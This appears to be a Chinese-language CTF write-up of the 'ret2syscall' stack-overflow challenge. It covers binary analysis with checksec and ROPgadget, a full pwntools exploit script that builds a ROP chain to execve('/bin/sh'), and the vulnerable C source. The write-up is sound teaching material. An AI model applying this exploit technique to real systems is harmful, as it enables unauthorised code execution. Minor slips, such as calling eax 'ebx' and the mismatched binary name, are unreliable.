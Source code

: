 ```yaml
---
layout:     post
title:      ret2syscall
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[下载程序](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2syscall)



## 分析过程

这里需要注意一点，ret2syscall是静态编译的

```
file ret2syscall

ret2syscall: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked
```



只开了NX堆栈不可执行保护

```
checksec ret2syscall
[*] '/home/hello/Desktop/test/ret2syscall/ret2syscall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```





## 解题思路

思路

ida打开程序，发现没有system函数，因为是静态编译又不能调用libc中的函数，考虑一下int 0x80[系统调用](https://syscalls.kernelgrok.com)

```python
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
```

payload中，ebx=0xb对应系统调用表中的sys_execve，edx、ecx为0即可，ebx存/bin/sh的字符串地址

/bin/sh字符串地址

```
strings -a -tx ret2syscall | grep '/bin/sh' + 0x8048000

0x76408 + 0x8048000 = 0x80be408

```

int 0x80地址

```
ROPgadget --binary ret2syscall --only 'int'

或者

ROPgadge –binary ret2syscall –opcode cd80c3
```







exp.py

```python
#!/usr/bin/env python
from pwn import *

sh = process('./rop')

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
    ['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
sh.sendline(payload)
sh.interactive()
```



ret2syscall.c

```c
#include <stdio.h>
#include <stdlib.h>

char *shell = "/bin/sh";

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("This time, no system() and NO SHELLCODE!!!\n");
    printf("What do you plan to do?\n");
    gets(buf);

    return 0;
}
```



## 总结

注意静态编译和动态编译的区别
